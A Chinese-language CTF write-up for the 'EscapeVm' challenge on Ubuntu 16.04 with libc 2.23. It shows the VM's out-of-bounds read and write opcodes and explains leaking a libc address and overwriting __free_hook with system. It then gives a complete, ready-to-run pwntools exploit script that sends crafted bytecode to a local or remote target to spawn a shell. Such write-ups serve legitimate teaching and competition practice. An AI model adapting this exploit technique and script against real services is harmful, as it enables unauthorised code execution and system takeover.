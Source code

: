 # EscapeVm

不得不说这题很有意思，国赛的时候一堆的堆题，这题让人焕然一新。原先也解过类似的题目，但是我知道自己的逆向能力不太好，当时就没去看这题了。pizza真的tql

题目环境是Ubuntu16.04,libc是2.23的

题目的

```c
case 6:                                 // oob read
          v12 = (v22 >> 9) & 7;
          v13 = &reg->r0 + v12;
          *v13 = read_mem(
                   (*((unsigned __int16 *)&reg->r0 + ((v22 >> 6) & 7)) << 16)
                 + *((unsigned __int16 *)&reg->r0 + ((v22 >> 3) & 7)));
          update_eflag(v12);
          break;
        case 7:                                 // oob write
          sign_extend(v22 & 0x3F, 6);
          mem_write(
            (*((unsigned __int16 *)&reg->r0 + ((v22 >> 6) & 7)) << 16)
          + *((unsigned __int16 *)&reg->r0 + ((v22 >> 3) & 7)),
            *(&reg->r0 + ((v22 >> 9) & 7)));
          break;
```

存在越界读和写，然后因为申请的memory是在libc的上方，且和libc的偏移不变，所以可以通过越界读泄露libc地址，然后在越界写__free_hook为system的地址，然后退出的时候就能getshell，需要注意的是这个vm是大端的，所以要转一下字节序

```python
from pwn import *


def main(host,port=9017):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./escapevm")
		# p = process("./",env={"LD_PRELOAD":"./libc.so.6"})
		# gdb.attach(p,"b *0x56555000+0x001322")
	p.recvuntil("Input: ")
	p.send("\x00\x00")
	#leak stdout
	#r1 = 0xe
	payload = "b/nis/\x00h"+"\x00"*(0x6000-8)
	payload += "\x22\x80"
	#r2 = 0xa6fa
	payload += "\x24\x80"
	#r3 = stdout & 0xffff
	payload += "\x66\x50"
	#r4 = (stdout & 0xffff0000)>>16
	payload += "\x24\x7f"
	payload += "\x68\x50"
	#r2 = 0xa754
	payload += "\x24\x7e"
	#r5 = 0x17
	payload += "\x2a\x7e"
	#r6 = 0x8040
	payload += "\x2c\x7e"
	#r4 += r5
	payload += "\x19\x05"
	#r3 += r6
	payload += "\x16\xc6"

	#write free_hook
	payload += "\x76\x50"
	#r2 = 0xa755
	payload += "\x24\x7b"
	payload += "\x78\x50"
	payload += "\xf0\x26"
	payload = payload.ljust(0x6100,"\x00")
	payload += p16(0x0)+"\x00\x0e"+"\xa6\xfa"+"\xa6\xfb"
	payload += "\xac\x54"+"\xff\xe8"+"\x80\x40"+"\xac\x55"
	p.send(payload)
	
	p.interactive()
	
if __name__ == "__main__":
	
	main(args['REMOTE'])
```

参考链接： 
[https://xz.aliyun.com/t/5842](https://xz.aliyun.com/t/5842)
[https://justinmeiners.github.io/lc3-vm/](https://justinmeiners.github.io/lc3-vm/)
